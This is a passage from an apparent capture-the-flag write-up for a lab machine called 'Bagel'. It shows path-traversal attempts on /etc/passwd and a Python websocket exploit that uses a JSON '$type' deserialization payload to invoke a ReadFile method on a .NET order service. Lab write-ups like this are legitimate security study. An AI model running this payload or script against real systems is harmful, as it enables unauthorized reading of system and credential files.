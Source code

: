 Running the script with different inputs for the `data` , it works quite well:

```jsx
❯ python3 interact_bagel.py
{'UserId': 0, 'Session': 'Unauthorized', 'Time': '8:20:01', 'RemoveOrder': None, 'WriteOrder': None, 'ReadOrder': 'Order not found!'} - ../../../../etc/passwd
❯ python3 interact_bagel.py
{'UserId': 0, 'Session': 'Unauthorized', 'Time': '8:20:17', 'RemoveOrder': None, 'WriteOrder': None, 'ReadOrder': 'Order not found!'} - ../../../.././etc/hosts
❯ python3 interact_bagel.py
{'UserId': 0, 'Session': 'Unauthorized', 'Time': '8:20:24', 'RemoveOrder': None, 'WriteOrder': None, 'ReadOrder': 'abc'} - ../../../../../../orders.txt
```

There is a method called `RemoveOrder` which does not have any objects defined in it like other methods

![](/img/Bagel_299b40e8bc344ae7904cea7a0b1ed5cf/Untitled_8.png)

There was another class named as `File` containing a method called `ReadFile` which could be the perfect target for the attack as we can retrieve any arbitrary file:

![](/img/Bagel_299b40e8bc344ae7904cea7a0b1ed5cf/Untitled_9.png)

Now, we can craft the payload as follows:

```jsx
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": data}}
```

`RemoveOrder` is one of the methods we can call, using the `$type` , we can specify `bagel_server.File, bagel` such as we will be calling a method from that specific location i.e. `ReadFile` , lastly the `data` is the argument for the `ReadFile` 

```jsx
#!/usr/bin/python3

import websocket
import json

def order(data): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://10.10.11.201:5000/") # connect to order app
        order = {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": data}}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result))
    except Exception as E:
        print(E)
        return("Unable to connect")

print(order("../../../../../../../etc/passwd"))
```
